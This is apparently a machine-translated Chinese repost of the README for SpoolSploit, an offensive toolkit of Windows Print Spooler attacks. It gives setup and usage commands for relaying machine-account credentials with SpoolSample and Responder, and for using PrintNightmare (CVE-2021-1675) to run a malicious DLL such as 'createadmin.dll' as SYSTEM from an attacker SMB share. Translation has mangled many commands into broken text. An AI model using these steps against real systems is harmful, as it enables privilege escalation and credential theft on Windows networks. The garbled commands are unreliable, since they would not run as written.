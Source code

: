 # SpoolSploit:Windows 打印假脱机程序漏洞的集合

> -= the last fantasy =-荣誉出品本字幕仅供学习交流，严禁用于商业途径

[![](img//a3d14e895bfbd13ec254311938c25d85.png)](https://blogger.googleusercontent.com/img/a/AVvXsEgTVv18DM3J9nzjl6L45Vg6LD7F10WYJIAQt2eD3lilZ9Ce2k5JgZtTjf5kFavTaffyoHdMfZIneeiRzOF9AvfNdx4e2ji1bkEkuNU_iT-hvtAgVFL4UAK6m89nL6fOPfPV4lmV4yblKBvp3d1dUqp4KctW4SmiTXbUZKVYHdCZfljKFAlw-vLUj7hU=s728)

SpoolSploit 是一个 Windows 打印假脱机程序开发的集合，它与其他实用程序一起打包，以供实际开发。一些非常有效的方法是中继机器帐户凭证，以提升权限并在具有完全系统访问权限的端点上执行恶意 dll。

![](img//dc4a57b9f4cdb91deee34b7e0a16ee5b.png)

**入门**

截至发布日，SpoolSploit Docker 容器已经在最新版本的`**MacOS**`、`**Ubuntu**` 、**、**和**、T3 上测试成功。**

虽然不是必需的，但是如果您希望在 SpoolSploit 容器中托管恶意 dll 或进行凭据中继攻击，您应该确保运行 Docker 的主机上没有使用端口 445。在 Windows 主机上运行该容器时，这种情况最为普遍，因为它默认使用端口 445。如果在您的主机上禁用端口 445 不切实际，那也没关系！您可以简单地在一个虚拟机中运行 docker 容器，该虚拟机将网络适配器配置为桥接模式。这将允许提供恶意 dll 和中继凭据。如果您只想为恶意 dll 提供服务，您可以简单地将 dll 托管在主机操作系统上的匿名访问共享或受损的服务器共享上。

**创建并访问 SpoolSploit Docker 容器**

*   克隆此存储库

**git 克隆 https://github.com/BeetleChunks/SpoolSploit**

*   构建 SpoolSploit Docker 容器映像

**cd 排存器排存器
sudo dock build-t 排存器排存器。**

*   创建并启动 SpoolSploit Docker 容器

**sudo 坞站运行-dit-p45:445–名称排存器排存器排存器:最新**

*   附在容器上

**sudo dock exec-it 排流器/bin/bash**

**命令行用法**

**用法:spool _ sploit . py[-h]-a {spoolsample，nightmare} -rH RHOST -rP {139，445 }[-lH LHOST][-lS LSHARE]-d DOMAIN-u USER-p PASSWD
可选参数:
-h，–帮助显示此帮助消息并退出
-a {spoolsample，nightmare}，–要对目标执行的攻击类型{ spool sample，nightmare}
。
-rH RHOST，–RHOST RHOST
远程目标 IP、CIDR 范围或文件名(文件:)
-rP {139，445}，–rport { 139，445}
远程 SMB 服务器端口。
-lH LHOST，–LHOST LHOST
监听主机名或 IP
-lS LSHARE，–LSHARE LSHARE
暂存 SMB 共享(UNC)
-d 域，–DOMAIN
用于身份验证的域
-u 用户，–Username 用户
用于身份验证的用户名
-p PASSWD，–Password PASSWD
用于身份验证的密码
示例–spool 示例:
python3 spool_sploit-rP 445 -rH 10.5.1.10
示例–噩梦:
python 3 spool _ sploit . py-a nightman-lS ' \ 10 . 14 . 1 . 24 \ C $ \ create admin . dll '-d evil . corp-u rjmcdow-p ' p 4 ss word 123！'-rP 445 -rH 10.5.1.10**

**spool sample–捕获并中继 Windows 机器帐户凭证**

SpoolSploit Docker 容器包括[响应者](https://github.com/lgandx/Responder)，用于转发在 SpoolSploit 中执行`spoolsample`攻击所获得的机器帐户散列。由于已经有几篇很好的文章详细介绍了为特权提升而传递特权机器帐户凭证的过程，所以我在这里就不再赘述了。

![](img//283ac56b03f57a441e1bd2fab36b7155.png)

p**rint nightmare(CVE-2021-1675)–以系统身份在 Windows 目标上执行恶意 DLLs】**

SpoolSploit 容器中包含一个通过 Impacket 实现的 SMB 服务器。在 SpoolSploit 中执行`**printnightmare**`攻击时，该服务器可用于托管恶意 dll。默认的 SMB 服务器设置有效，但是如果您想要定制它们，您可以修改位于**T1 的配置文件。**

您唯一需要做的就是将您的 DLL 复制到 SpoolSploit 容器中 SMB 服务器的共享文件夹中。容器中的共享路径是`**/home/dlogmas/smbserver/share/**`。以下命令演示了如何将 DLL 上载到 SpoolSploit 容器，并使 SMB 服务器可以访问它。

sudo docker cp。/恶意. dll spoolsploit:/home/dlogmas/SMB server/share/
sudo docker exec spoolsploit/bin/sh-c ' sudo chown dlogmas:dlogmas/home/dlogmas/SMB server/share/恶意. dll'

![](img//014b4d0d27ec31bcaee212355cc9a4f7.png)[**Download**](https://github.com/BeetleChunks/SpoolSploit)